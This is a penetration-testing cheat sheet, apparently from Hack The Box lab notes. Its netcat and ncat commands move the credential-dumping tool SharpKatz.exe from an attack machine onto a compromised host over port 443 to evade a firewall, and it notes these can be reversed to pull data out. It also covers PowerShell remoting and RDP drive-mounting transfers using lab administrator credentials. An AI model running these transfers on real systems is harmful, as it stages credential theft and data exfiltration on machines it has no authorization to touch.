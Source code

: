 ```yaml
---
title: Miscellaneous File Transfer Methods
tags: [download, upload, rdp]
tools: ['nc', 'netcat', 'ncat', 'xfreerdp', 'rdesktop']
notes: "Various miscellaneous file transfer techniques"
---
```


# Miscellaneous File Transfer Methods

## Linux

### File Transfer with Netcat and Ncat

> These methods can be reversed for upload to attack machine, if allowed through firewall 

Send to Compromised Machine

```bash
# Netcat
# Setup the listener on compromised host
nc -l -p 8000 > SharpKatz.exe
# Send the file
nc -q 0 192.168.49.128 8000 < SharpKatz.exe

# Ncat
# Setup the listener on compromised host
ncat -l -p 8000 --recv-only > SharpKatz.exe
# Send the file
ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

Sending file as input   

```bash
# 443 is used due to firewall

# Netcat
# Sending file from attack machine
sudo nc -l -p 443 -q 0 < SharpKatz.exe

# Receive the file
nc 192.168.49.128 443 > SharpKatz.exe

# Ncat - 443 is used due to firewall
# Sending file from attack machine
sudo ncat -l -p 443 --send-only < SharpKatz.exe

# Receive the file
ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

## Windows/Active Directory

### PowerShell Session File Transfer

To create a PowerShell Remoting session on a remote computer, we will need administrative access, be a member of the `Remote Management Users` group, or have explicit permissions for PowerShell Remoting in the session configuration.

**From DC01 - Confirm WinRM port TCP 5985 is Open on DATABASE01.**          

```powershell
whoami
htb\administrator

hostname
DC01

Test-NetConnection -ComputerName DATABASE01 -Port 5985

ComputerName     : DATABASE01
RemoteAddress    : 192.168.1.101
RemotePort       : 5985
InterfaceAlias   : Ethernet0
SourceAddress    : 192.168.1.100
TcpTestSucceeded : True
```

**Create a PowerShell Remoting Session to DATABASE01**

`$Session = New-PSSession -ComputerName DATABASE01`

**Copy samplefile.txt from our Localhost to the DATABASE01 Session** 

`Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\`

**Copy DATABASE.txt from DATABASE01 Session to our Localhost**

`Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session`

------

### RDP

Connect to `\\tsclient\`, allowing us to transfer files to and from the RDP session.

**Mounting a Linux Folder Using rdesktop**

`rdesktop 192.168.1.10 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files`

**Mounting a Linux Folder Using xfreerdp**

`xfreerdp3 /v:192.168.1.10 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer`
